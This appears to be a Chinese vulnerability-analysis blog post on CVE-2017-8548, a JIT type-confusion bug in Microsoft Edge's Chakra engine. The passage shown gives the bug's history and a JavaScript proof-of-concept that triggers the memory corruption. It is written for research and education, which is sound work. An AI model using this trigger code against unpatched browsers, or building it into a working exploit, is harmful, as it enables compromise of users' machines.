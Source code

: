 > 原文链接: https://www.anquanke.com//post/id/87322 


# 【漏洞分析】对Edge浏览器的js解析引擎Chakra漏洞CVE-2017-8548的分析


                                阅读量   
                                **170427**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">2</a>
                                </b>
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



[![](https://p5.ssl.qhimg.com/t01ff883e7aa627d0e3.jpg)](https://p5.ssl.qhimg.com/t01ff883e7aa627d0e3.jpg)

作者：[Ox9A82](http://bobao.360.cn/member/contribute?uid=2676915949)

预估稿费：1000RMB

**（本篇文章享受双倍稿费 活动链接请**[**点击此处**](http://bobao.360.cn/news/detail/4370.html)**）**

投稿方式：发送邮件至linwei#360.cn，或登陆网页版在线投稿



**简介**



这是Microsoft Edge的javascript解析引擎Chakra的一个漏洞。这篇分析也是我这系列分析中的一部分，这一系列的漏洞虽然成因各有不同，但是我个人觉得在挖掘问题的思路上是一脉相承的。 这个漏洞与之前的几个相比比较特殊的是涉及到了代码的JIT，也就是发生了优化导致的问题。 此外这也是一个**微软修了两次才修好的漏洞**，韩国神童lokihardt第一次在16年12月经project zero上报了这个漏洞，编号为**CVE-2017-0071**。之后微软进行了错误的修补lokihardt在17年6月份再次上报了这个漏洞编号为**CVE-2017-8548**。



**漏洞概况**

lokihardt提供的POC如下



```
'use strict';
function func(a, b, c) `{`
    a[0] = 1.2;
    b[0] = c;
    a[1] = 2.2;
    a[0] = 2.3023e-320;
`}`
function main() `{`
    let a = [1.1, 2.2];
    let b = new Uint32Array(100);
    for (let i = 0; i &lt; 0x1000; i++)
        func(a, b, `{``}`);  // &lt;&lt;---------- REPLACED
    func(a, b, `{`valueOf: () =&gt; `{`
        a[0] = `{``}`;
        return 0;
    `}``}`);
    a[0].toString();
`}`
main();
```
